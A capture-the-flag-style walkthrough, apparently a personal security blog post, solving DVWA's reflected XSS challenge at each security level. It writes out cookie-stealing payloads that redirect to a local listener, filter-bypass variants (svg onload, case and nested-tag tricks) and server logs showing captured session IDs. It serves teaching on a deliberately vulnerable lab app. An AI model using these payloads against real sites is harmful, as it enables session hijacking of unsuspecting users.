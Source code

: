 ```yaml
---
title: DVWA - XSS (Reflected)
date: 2023-12-17
categories: [DVWA]
tags: [dvwa, xss, xss-reflected, cross-site-scripting, javascript]
img_path: /assets/dvwa/xss_reflected
published: true
image:
    path: ../dvwa_logo.png
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Cross-Site Scripting (XSS) (Reflected)

XSS attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

Because its a **reflected XSS**, the malicious code is not stored in the remote web application, so **requires some social engineering** (such as a link via email/chat).

**Objective**: One way or another, steal the cookie of a logged in user.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_low_source.php))._

1. Putting our name in the input form, we notice the the parameter `name` appears on the address bar:

    ![](home_kuv4z.png)

2. Instead of our name, we can try a simple payload to see it will work:

    ![](low_test.png)

3. We can check if a XSS vulnerability exists by passing a very simple payload:

    ```javascript
    <script>alert(document.cookie)</script>
    ```

    ![](low_test.png)

4. Our goal is to get our target's cookie value, so we will have to use a payload that grabs his cookie but also send it to us. Let's start by launch a Python3 HTTP server:

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    ```

5. If we pass the exact same payload as the one we used for the [XSS (DOM)](https://cspanias.github.io/posts/DVWA-XSS-(DOM)/#security-low) section, it won't work:

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='+document.cookie</script>
    ```

    ![](low_payload_fail.png)

6. If we view the page's source, we will notice that the `+` symbol disappears:

    ![](low_page_source.png)

7. We can try to [URL-encode](https://www.w3schools.com/tags/ref_urlencode.ASP) the `+` symbol and try again:

    ![](url_enc.png)

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```
    ![](low_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:17:49] "GET /?cookie=PHPSESSID=fejtgct45j1cmkcedvieacnai5;%20security=low HTTP/1.1" 200 -
    ```

## Security: Medium
> _The developer has tried to add a simple pattern matching to remove any references to `<script>`, to disable any JavaScript ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_medium_source.php))._

1. First, let's get rid of the PHP error we have by changing `${name}` to `{$name}` in `/usr/share/dvwa/vulnerabilities/xss_r/source/medium.php` and refreshing the page:

    ![](php_error.png)

    ![](medium_php.png)

    ![](medium_php_fixed.png)

2. If we take a look at the page's source code, we will see that the `<script>` tag gets removed, so this time the same payload won't work. There is a handy [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt) on GitHub, so we can choose any other form of payload which does not include the blacklisted tag. Let's try one:

    ![](medium_source_code.png)

    ```javascript
    </select><svg/onload=alert(1)>
    ```

    ![](medium_test.png)

3. We can use the same process as before to steal our target's cookie:

    ```javascript
    <svg/onload=window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie>
    ```

    ![](medium_payload_cookie.png)

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:37:35] "GET /?cookie=security=medium;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

4. The developer's code is case sensitive so it is only checking for an exact match of `<script>`. So, we could also use the following payload to bypass this:

    ```javascript
    <SCRIPT>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```

5. We could also apply the same concept as we did on the [LFI](https://cspanias.github.io/posts/DVWA-File-Inclusion/#local-file-inclusion-1) section, and pass the following payload:

    ```javascript
    <scr<script>ipt>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```

## Security: High
> _The developer now believes they can disable all JavaScript by removing the pattern `<s*c*r*i*p*t` ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_high_source.php))._

> You can fix the error as above.

1. This level can be attacked the same way as the previous one as the developer just changed the blacklisted pattern to `<s*c*r*i*p*t`:

    ```javascript
    <svg/onload=window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie>
    ```

    ![](high_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:42:59] "GET /?cookie=security=high;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

## Security: Impossible
> _Using inbuilt PHP functions, such as [`htmlspecialchars()`](https://secure.php.net/manual/en/function.htmlspecialchars.php), its possible to escape any values which would alter the behaviour of the input ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=qHHADT52L5s).
- OWASP's [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).